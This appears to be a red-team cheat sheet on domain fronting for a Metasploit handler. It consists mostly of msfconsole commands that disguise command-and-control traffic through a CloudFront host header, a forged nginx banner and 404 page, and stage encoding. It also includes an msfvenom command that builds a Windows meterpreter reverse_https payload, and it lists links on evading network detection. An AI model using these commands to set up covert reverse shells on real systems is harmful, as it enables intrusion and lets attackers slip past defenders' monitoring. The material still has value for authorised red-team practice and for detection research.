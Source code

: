 ```yaml
---
author(s):
  - Userware
tags:
  - red-team-infrastructure
  - metasploit-framework
  - domain-fronting
---
```

# Domain Fronting

## 01 - Shell Handler

```
msf exploit(multi/handler) > set HttpHostHeader afsa0dfna0sdfhq3.cloudfront.net

msf exploit(multi/handler) > set HttpUserAgent <user_agent>

msf exploit(multi/handler) > set HttpServerName nginx/1.21.2

msf exploit(multi/handler) > set HttpUnknownRequestResponse <html><head><title>404 Not Found</title></head><body><p><h1 align="center">404 Not Found</h1></p><br><p><hr></p><p align="center">nginx/1.21.2</p></body></html>
```

## 02 - The URI length for the stager (at least 5 bytes)

```
msf exploit(multi/handler) > set StagerURILength 420

msf exploit(multi/handler) > set HandlerSSLCert /path/to/cert.pem

msf exploit(multi/handler) > set SSLVersion TLS1.2

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

```
$ msfvenom -p windows/x64/meterpreter/reverse_https StagerURILength=420 HandlerSSLCert=/path/to/cert.pem
```

optional payload advanced settings

```
msf exploit(multi/handler) > set HttpHostHeader

msf exploit(multi/handler) > set HttpCookie
```

---
## References

- [Anti-Forensics Evading Network Detection with Metasploit](https://sapphirex00.medium.com/c2-antiforensics-evading-network-detection-with-metasploit-b400342f20b1)

- [Didier Stevens: Metasploit User Agent Strings](https://blog.didierstevens.com/2015/03/16/quickpost-metasploit-user-agent-strings/)

- [Catching Meterpreter Callbacks](https://github.com/bats3c/shad0w/wiki/Catching-Meterpreter-Callbacks)

- [Windows Exploit with Word Macro](https://zer0day.tistory.com/303)

- [Conti TTP using Atomic Red Team and Detection Lab C2 infrastructure Hunting](https://michaelkoczwara.medium.com/conti-ttps-using-atomic-red-team-and-detection-lab-c2-infrastructure-hunting-16d159fe0ed8)

- https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/

- [Chapter 11 Visualizing Metasploit (Use case related about MSGRPC which is the msfrpcd when connecting metasploit remotely)](https://goois.net/chapter-11-visualizing-metasploit-mastering-metasploit-fourth-edition.html)